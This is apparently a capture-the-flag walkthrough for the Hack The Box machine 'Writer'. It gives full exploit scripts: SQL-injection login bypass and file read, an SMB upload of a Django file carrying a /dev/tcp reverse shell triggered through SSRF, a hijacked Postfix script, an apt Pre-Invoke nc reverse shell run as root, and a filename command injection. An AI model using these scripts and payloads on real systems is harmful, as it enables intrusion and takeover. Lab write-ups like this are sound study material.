

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.101 writer.htb

**nmap scan:**
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
```

* There is a smb share but anonymous access is not allowed `//10.10.11.101/writer2_project	Mapping: DENIED, Listing: N/A`
* **Enum4linux** found a user **`kyle`**

Running **Gobuster** found **`/administrative`** and **`/static`** directory.

`/administrative` have authentication bypass using sql injection
```sql
OR 1=1 -- -
```


There are 2 places with file upload option.

One in `/dashboard/settings`


And Second in `/dashboard/stories/add`


adding a stories also have url option in place of file upload.


Another directory `/static` which have file indexing. we can see our uploaded files in the `img` folder inside `static` directory. 


But looks like application is not vulnerable for file upload.

There is a clint side filter `http://10.10.11.101/js/form-validator.js` which preventing ssrf from url in `/dashboard/stories/add`

It is easy to bypass with brup there's only one catch, application is checking if url end with `.jpg`


Nothing useful back to `/administrative` sql injection

# Foothold

## UNION sqli to file read

Fuzzing for UNION injection found after 6 columns and second column is reflected on the web page.
```sql
UNION select 1,2,3,4,5,6;-- -
```


Nothing interested in the database but database have FILE privileges And This allow us to read system file.
```sql
UNION select 1,privilege_type,3,4,5,6 FROM information_schema.user_privileges;-- -
```


Python script to simplify that process.
```py
import re
import sys
import requests as r
import base64

url = 'http://10.10.11.101/administrative'
# injection = sys.argv[1]  # "version()"
injection = f"TO_base64(LOAD_FILE('{sys.argv[1]}'))"  # File Read
schema = ";"  # sys.argv[2]
data = f"uname=test'+UNION+ALL+select+1,{injection},3,4,5,6+{schema}--+-&password=test"
header = {"Content-Type": "application/x-www-form-urlencoded"}
rspn = r.post(url, data=data, headers=header)
res = []
try:
    res = re.findall(r'<h3 class="animation-slide-top">Welcome (.*?)</h3>', rspn.text.replace('\n', ''))[0]
except IndexError:
        print(rspn.text)
else:
    try:
        print(base64.b64decode(res).decode('UTF-8'))
    except Exception:
        print(res)
```


### apache wsgi

Find webapp root directory from `/etc/apache2/sites-enabled/000-default.conf`
* `/etc/apache2/sites-enabled/000-default.conf` is a very useful file if you have access to file read on a server.


* There's also a host specified in the config file which is running same application's dev version in the localhost on port 8080.

Apache server is using wsgi to host the web application.

* WSGI: The Web Server Gateway Interface is a simple calling convention for web servers to forward requests to web applications or frameworks written in the Python programming language.

This allow users to host python web apps in a apache/nginx like servers.


`/var/www/writer.htb/writer.wsgi` is a python script that initiating python web app form `__init__.py` file found from the comment.
```py
python sqli.py /var/www/writer.htb/writer.wsgi

#!/usr/bin/python
import sys
import logging
import random
import os

# Define logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/writer.htb/")

# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get("SECRET_KEY", "")
```

`__init__.py` file found in web root directory in app folder `writer`: `/var/www/writer.htb/writer/__init__.py`


> Command injection in `__init__.py` **[Unintended Path](#command-injection-via-filename)**

### RCE using SSRF with smb

Found database creds from `__init__.py`: **`admin:ToughPasswordToCrack`**

* Revise
  * in the beginning, we found a smb share: `//10.10.11.101/writer2_project`
  * we have a user: `kyle`
  * and a password `ToughPasswordToCrack` which worked with user `kyle` on smb share: `kyle:ToughPasswordToCrack`
  * And a local dev server: `127.0.0.1:8080`

* Plus
  * "writer2_project" share has local dev application source code.
  * User "kyle" has read/write access in the share.

source code we got from smb share, dev application "writer_web" only has 1 function "home_page" calling from "views.py" which loads "index.html"


if we append reverse shell in `views.py` it could give us shell.


And request `http://127.0.0.1:8080/#.jpg` with ssrf we found in `/dashboard/stories/add`


Python script to automate the process
```py
#! /usr/bin/python3

import requests as r
from smb.SMBConnection import SMBConnection

#create temp file with shell content
def create_file():
    f = open("/tmp/views.py", "w")
    lhost = "10.10.14.44"
    lport = 4141
    views_py = f"""
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('/bin/bash -c "/bin/bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"')
    template_name = "index.html"
    return render(request,template_name)
"""
    f.write(views_py)
    f.close()

#upload/replace to smb share
def smb_put():
    conn = SMBConnection('kyle', 'ToughPasswordToCrack', 'test_v1', 'v1', use_ntlm_v2=True)
    assert conn.connect('10.10.11.101', 139)
    with open('/tmp/views.py', 'rb') as file_obj:
        conn.storeFile('writer2_project', '/writer_web/views.py', file_obj)
    file_obj.close()

#invoke dev app on localhost with ssrf
def ssrf():
    s = r.session()
    url = 'http://10.10.11.101'
    s.post(f"{url}/administrative", data="uname=test'+OR+1=1;--+-&password=test", headers={"Content-Type": "application/x-www-form-urlencoded"})
    header = {"Content-Type": "multipart/form-data; boundary=---------------------------40554192439809207943475147343"}
    data = """-----------------------------40554192439809207943475147343\r\nContent-Disposition: form-data; name="author"\r\n\r\ntest\r\n-----------------------------40554192439809207943475147343\r\nContent-Disposition: form-data; name="title"\r\n\r\ntest\r\n-----------------------------40554192439809207943475147343\r\nContent-Disposition: form-data; name="tagline"\r\n\r\ntestAnd\r\n-----------------------------40554192439809207943475147343\r\nContent-Disposition: form-data; name="image"; filename=""\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------40554192439809207943475147343\r\nContent-Disposition: form-data; name="image_url"\r\n\r\nhttp://127.0.0.1:8080/#.jpg\r\n-----------------------------40554192439809207943475147343\r\nContent-Disposition: form-data; name="content"\r\n\r\ntest\r\n-----------------------------40554192439809207943475147343--\r\n"""
    s.post(f"{url}/dashboard/stories/add", headers=header, data=data)
    s.close()

create_file()
smb_put()
ssrf()
```


# Privesc

There are multiple users on the box
```bash
╔══════════╣ Users with console
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

dev app process
```bash
www-data     926  0.0  0.0   2608   604 ?        Ss   Dec13   0:00  |   _ /bin/sh -c cd /var/www/writer2_project && python3 manage.py runserver 127.0.0.1:8080
www-data     930  0.0  0.9  52668 39224 ?        S    Dec13   0:01  |       _ python3 manage.py runserver 127.0.0.1:8080
www-data   54123  1.6  1.0 128976 43068 ?        Sl   04:30   0:01  |           _ /usr/bin/python3 manage.py runserver 127.0.0.1:8080
```

Active ports on local host
```bash
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      54123/python3       
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
```

dev webapp is running django framework and we can use it to access database.



Got password hash for user "kyle" and cracked with hashcat
```bash
❯ hashcat -m 10000 hash /usr/share/wordlists/rockyou.txt --show
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
```

* System user **kyle** creds: `kyle:marcoantonio`

User "kyle" is in 2 other groups besides defaults
```bash
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
```

These groups owned some files
```bash
(remote) www-data@writer:/$ find / -group filter 2>/dev/null
/etc/postfix/disclaimer
/var/spool/filter
(remote) www-data@writer:/$ find / -group smbgroup 2>/dev/null
/var/www/writer2_project
```

we already explore "writer2_project" and `/var/spool/filter` is a empty directory and `/etc/postfix/disclaimer` is a bash script with full read/write/execute permission.

## postfix automate scripts

`/etc/postfix/disclaimer` script looks like a post processing script for received emails.

And in Postfix these type of script executes from `/etc/postfix/master.cf` config file.

And we can check that `/etc/postfix/disclaimer` script is specified in the config file.
```bash
(remote) www-data@writer:/$ cat /etc/postfix/master.cf | tail -n 2
dfilt     unix  -       n       n       -       -       pipe
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

This script is executing from user "john" when server received a email.

And if we fingerprint port 25, that port is running postfix server
```bash
(remote) www-data@writer:/$ nc 127.0.0.1 25
220 writer.htb ESMTP Postfix (Ubuntu)
```

So, we have everything, postfix server and script that execute by user "john" and writable by user "kyle".

If we add reverse shell in the `/etc/postfix/disclaimer` script and send a email to local server postfix execute that script with as well as our command as user "john"

To test the theory, i tried with a simple command and added it in the start of the script.
```bash
echo kwakkwak > /tmp/poorduck.txt
```


then connect to the postfix server using `nc` and send a email to system user.

```bash
nc 127.0.0.1 25

MAIL FROM:brrrr@writer.htb
RCPT TO:john@writer.htb

DATA
From: brrrr@writer.htb
To: john@writer.htb
Subject: Test

Testing
.
```

And our specified file is created with echo command.


*Got user "john" shell by adding ssh key*
<!--
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDR2NrkpxmiFBOdoPlNJnCcYVpZr0KkssGZ2CZJypc+p9p21UMY6oO7OdSsKFkCrjHRw6GsuNRLrxAKv0qhRwcZDXfnXArpVZJ0pdPSRJ6CVe15CZx03mLOsES+BVCtFKm7AU2bAVoVtxircAo067mr9zISjnt30nfd5oGp21wb6PETg40nS2kpmrnqNuyT/tSqGyabB6Ty/8UwFAdqwhafo+utaYgkhXdqQ/KQODEjNDh8/cXTLHNGqZrqz8GbmkD3lIjL9z9wY34lSSDvj8cgBW7evrcXZ/kmjGLwzVripgfHokF7qyQ6vJ8pU+mwRrXr44jdCpb64a1wKmF9Ja57ZPiMfo6+rSk9oZjJxmHY3VFO8db928sf1Ikv0I5RQPvYTbJbxqBSspSC34kmAcgqQAN0A2rrOjwp/rVtdRnlicIJByKKkfJ70sPVHiZ/TEAKgnwwW7IjuQJ+ON8TZgN07FIrAudooIubMX4LRCOSb/HVXwpZiWAsILxC1WkJ3WE=" > /home/john/.ssh/authorized_keys
-->

## Invoke command with apt Configs

User "john" is in a group besides defaults


That means user "john" can write inside `/etc/apt/apt.conf.d` directory

All of the files in `/etc/apt/apt.conf.d/` are instructions for the configuration of APT. APT includes them in alphabetical order, so that the last ones can modify a configuration element defined in one of the first ones.

There are 2 invoke options in apt `Pre-Invoke` and  `Post-Invoke` that allows to run commands before and after the apt command execute.

add any of the line based on the condition in apt config file.
```bash
APT::Update::Pre-Invoke  {"COMMAND";};
APT::Update::Post-Invoke {"COMMAND";};
```

But apt only execute root/sudo and thats why there is a cronjob is running that executes `/usr/bin/apt-get update` command in every few minutes, i found this by monitoring processes with `pspy`
```bash
2021/12/14 10:56:03 CMD: UID=0    PID=14803  | /usr/bin/apt-get update
```

So only thing we need to do is to create a config file inside `/etc/apt/apt.conf.d` directory and wait for apt to get execute.
```bash
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.44 4141 >/tmp/f"};' > /etc/apt/apt.conf.d/000-shell
```


# Unintended Foothold

## Command Injection via filename

There are 2 path in the main webapp `/dashboard/stories/add` and `/dashboard/stories/edit/<id>` which has image upload functionality.


If image sourced from a url then it uses `urllib.request.urlretrieve` to retrieve it and save that image.

* After get admin dashboard using sqli authentication bypass we can access to `/dashboard/stories/add`

```py
# ... [snip] ...
local_filename, headers = urllib.request.urlretrieve(image_url)
os.system("mv {} {}.jpg".format(local_filename, local_filename))
# ... [snip] ...
```

With normal `http` protocol this function save loaded file from specified url as a tmp name
```py
>>> import urllib.request
>>> local_filename, headers = urllib.request.urlretrieve('http://127.0.0.1:8000/test.jpg')
>>> print(local_filename)
/tmp/tmplzvbozxt
```

And thats why there is `mv` command appending `.jgp` in the filename.

**But** if we use `file://` protocol, filename stayed as it is. This is because [urlretrieve()](https://github.com/python/cpython/blob/c8044777cf8c4e9bf05d1ab69fd4005089709147/Lib/urllib/request.py#L244-L247) function doing nothing nothing with `file://`.
```py
>>> local_filename, headers = urllib.request.urlretrieve('file:///tmp/test.jpg')
>>> print(local_filename)
/tmp/test.jpg
```

And there is no filter for this in the application and the fact that the application directly sends the filename into `os.system` function which invokes system commands is bad.

Here we can inject command with filename using `file://` protocol and get command execution.

**Test**
```py
import urllib.request, os
local_filename, headers = urllib.request.urlretrieve('file:///tmp/;whoami;')
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```


but `file://` protocol only work in local filesystem. To achieve command execution with this bug first we need to upload a image with system command in it's name.

The fact that the image upload is just checking for `.jpg` anywhere in the filename.
```py
# ... [snip] ...

if ".jpg" in image.filename:

# ... [snip] ...
```

something like `'kwakkwak.jpg;COMMAND;'` easily work here.
```bash
❯ echo 'ping -c 2 10.10.14.44  ' | base64
cGluZyAtYyAyIDEwLjEwLjE0LjQ0ICAK
❯ touch 'kwakkwak.jpg;echo cGluZyAtYyAyIDEwLjEwLjE0LjQ0ICAK|base64 -d|bash;'
```

upload that file using file upload and then once again edit/create post and this time load that uploaded file from file system with  `file://` protocol.
```
file:///var/www/writer.htb/writer/static/img/kwakkwak.jpg;echo cGluZyAtYyAyIDEwLjEwLjE0LjQ0ICAK|base64 -d|bash;
```

* Uploaded images are stored in `/var/www/writer.htb/writer/static/img/`
* And keep in mind that there is a client side filter.


<!--python script
```py
import sys
import requests as r
import base64

s = r.Session()
command = base64.b64encode(f'{sys.argv[1]}'.encode('UTF-8')).decode('UTF-8')
url = 'http://10.10.11.101'
print('[+] Authenticating...')
s.post(f"{url}/administrative", data="uname=test'+OR+1=1;--+-&password=test", headers={"Content-Type": "application/x-www-form-urlencoded"})
header = {"Content-Type": "multipart/form-data; boundary=---------------------------104520914830002980111528570838"}
filename = f"kwakkwak.jpg;echo {command}|base64 -d|bash;"
print('[+] Uploading file...')
upload_data = f"""-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="author"\r\n\r\ntest\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="title"\r\n\r\ntest\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="tagline"\r\n\r\ntest\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="image"; filename="{filename}"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="image_url"\r\n\r\n\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="content"\r\n\r\ntest\r\n-----------------------------104520914830002980111528570838--\r\n"""
s.post(f"{url}/dashboard/stories/add", headers=header, data=upload_data)
print('[+] Invoking File protocol...')
file_data = f"""-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="author"\r\n\r\ntest\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="title"\r\n\r\ntest\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="tagline"\r\n\r\ntest\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="image"; filename=""\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="image_url"\r\n\r\nfile:///var/www/writer.htb/writer/static/img/{filename}\r\n-----------------------------104520914830002980111528570838\r\nContent-Disposition: form-data; name="content"\r\n\r\ntest\r\n-----------------------------104520914830002980111528570838--\r\n"""
s.post(f"{url}/dashboard/stories/add", headers=header, data=file_data)
s.close()
```
-->